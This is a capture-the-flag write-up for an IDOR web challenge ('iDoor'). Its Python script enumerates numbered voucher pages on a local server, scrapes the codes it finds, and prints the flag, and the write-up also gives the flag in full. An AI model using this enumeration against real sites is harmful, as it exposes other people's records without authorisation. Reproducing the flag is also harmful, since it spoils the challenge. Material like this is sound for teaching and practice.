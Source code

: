 # iDoor

This is a web challenge that requires participants to write a script to find the flag. The vulnerability here is Insecure Direct Object Reference, also known as IDOR.

---

## Solution

Write a script in a language of your choice to iterate through the possible codes and find the flag.

Here is a Python script that can be used to solve the challenge:

```python
import requests
from bs4 import BeautifulSoup
import re

def extract_voucher_codes(base_url, start, end):
    for i in range(start, end + 1):
        url = f"{base_url}/CODE_{i}_2024.html"

        try:
            response = requests.get(url)
            soup = BeautifulSoup(response.content, 'html.parser')
            content = soup.get_text()

            if "CODE_" in content:
                voucher_codes = re.findall(r'CODE_\d+_2024', content)
                print(f"Code: {voucher_codes[0]}")

            if "YCEP24" in content:
                special = re.findall(r'YCEP24{.*}', content)
                print(f"Flag: {special[0]}")
                break

        except requests.exceptions.RequestException as e:
            print(f"Failed to retrieve {url}: {e}")


base_url = 'http://localhost:8000/codes'

extract_voucher_codes(base_url, 0, 1000)
```

Flag: `YCEP24{w04h_1n53cur3_d1r3ct_0bj3ct_R3f3r3nc3}`
